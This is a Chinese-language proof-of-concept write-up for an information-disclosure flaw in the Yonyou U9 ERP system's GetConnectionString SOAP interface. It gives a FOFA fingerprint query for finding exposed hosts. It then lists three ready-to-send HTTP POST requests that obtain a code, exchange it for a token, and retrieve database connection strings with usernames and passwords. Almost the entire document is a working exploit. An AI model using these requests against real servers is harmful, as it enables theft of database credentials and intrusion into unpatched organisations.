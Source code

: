 ## 用友u9系统接口GetConnectionString存在信息泄露漏洞

用友u9 GetConnectionString存在信息泄露漏洞，攻击者可通过该漏洞获取数据库连接信息包括数据库账号密码等敏感信息。

## fofa

```
body="logo-u9.png"
```

## poc

1. 获取code

```
POST /CS/Office/TransWebService.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: .ASPXANONYMOUS=1trTf5ff2gEkAAAAMzU0N2I3ZjctYzg0OC00YWFmLTliZTEtNDI2NDc1YmYyMTc10; ASP.NET_SessionId=ntvjalpizrae22kebxy5tn0g
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: http://tempuri.org/GetEnterprise
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 193

<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tem="http://tempuri.org/">
   <soap:Header/>
   <soap:Body>
      <tem:GetEnterprise/>
   </soap:Body>
</soap:Envelope>
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407022234900.png)

2. 使用上一步获取的code获取token

```
POST /CS/Office/TransWebService.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: .ASPXANONYMOUS=1trTf5ff2gEkAAAAMzU0N2I3ZjctYzg0OC00YWFmLTliZTEtNDI2NDc1YmYyMTc10; ASP.NET_SessionId=ntvjalpizrae22kebxy5tn0g
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: http://tempuri.org/GetToken
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 274

<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tem="http://tempuri.org/">
   <soap:Header/>
   <soap:Body>
      <tem:GetToken>
         <!--type: string-->
         <tem:endId>800</tem:endId>
      </tem:GetToken>
   </soap:Body>
</soap:Envelope>
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407022234913.png)

3. 使用token获取数据库连接信息

```
POST /CS/Office/TransWebService.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: .ASPXANONYMOUS=1trTf5ff2gEkAAAAMzU0N2I3ZjctYzg0OC00YWFmLTliZTEtNDI2NDc1YmYyMTc10; ASP.NET_SessionId=ntvjalpizrae22kebxy5tn0g
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: http://tempuri.org/GetConnectionString
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 325

<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tem="http://tempuri.org/">
   <soap:Header/>
   <soap:Body>
      <tem:GetConnectionString>
         <!--type: string-->
         <tem:token>Kp6iL9otgGlgsewf7WNyyT+BCVbWriP4</tem:token>
      </tem:GetConnectionString>
   </soap:Body>
</soap:Envelope>
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407022234944.png)
